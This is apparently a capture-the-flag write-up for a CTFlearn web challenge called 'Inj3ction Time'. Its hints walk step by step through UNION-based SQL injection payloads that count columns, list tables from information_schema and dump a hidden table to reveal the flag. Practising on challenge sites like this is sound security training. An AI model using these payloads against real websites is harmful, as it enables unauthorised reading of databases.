 
# Inj3ction Time 

**Category:** Web

# Problem
I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

# Hints
- This problem will solve using SQL injection
- Try to use UNION Query
- Follow this step
- 1 union select 1,2,3
- 1 union select table_name, 1,2,3 from information_schema.tables
- after that we got "w0w_y0u_f0und_m3" table name
- 1 union select  *, 1,2,3 from w0w_y0u_f0und_m3
- Boom u get the flag